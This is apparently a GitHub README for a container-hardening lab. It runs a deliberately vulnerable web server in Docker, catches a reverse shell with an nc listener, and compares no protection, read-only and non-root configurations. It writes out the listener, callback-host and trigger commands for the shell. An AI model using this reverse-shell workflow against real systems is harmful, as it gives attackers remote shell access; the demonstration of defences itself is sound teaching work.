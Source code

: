 # README

Demonstrates getting access into a container

📝 TODO:

* Is it possible to escape the read-only and run tools in the package lists?  


## Find IP

```sh
#MacOS
LOCAL_IP=$(ifconfig en0 inet | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" | head -n 1)  
echo ${LOCAL_IP}
```

## No Protection

### Shell 1

Run the stupid webserver.  Retrieve your host ip address and replace.  

```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell 

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh 
# Try and install something.
apt install curl

# Exiting will kill the container process
exit
```

## Readonly

### Shell 1

Run --read-only.  

```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --read-only --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell 

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh
# Try and install something - but this time it FAILS.
apt install curl

# Exiting will kill the container process
exit
```

## Nonroot

### Shell 1

Build and run a non-root user image.  

```sh
docker build --target non_root -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2

Run the callback service in a seperate shell 

```sh
nc -l -p 8888 -vvv 
```

### Shell 3

Invoke the exploit against the web server

```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents.  
You will see a bash prompt that is connected to the container.  

```sh
# You're webuser now.
whoami
# Try and install something - but this time it FAILS.
apt install curl


# Exiting will kill the container process
exit
```

## Troubleshooting  

Test with a simple webservice  

```sh
docker run -it --rm -p 8080:8080 --entrypoint /bin/bash reverseshell
echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 8080 -q 1
curl localhost:8080
```

```sh
tmuxinator
tmuxinator stop reverseshell
```
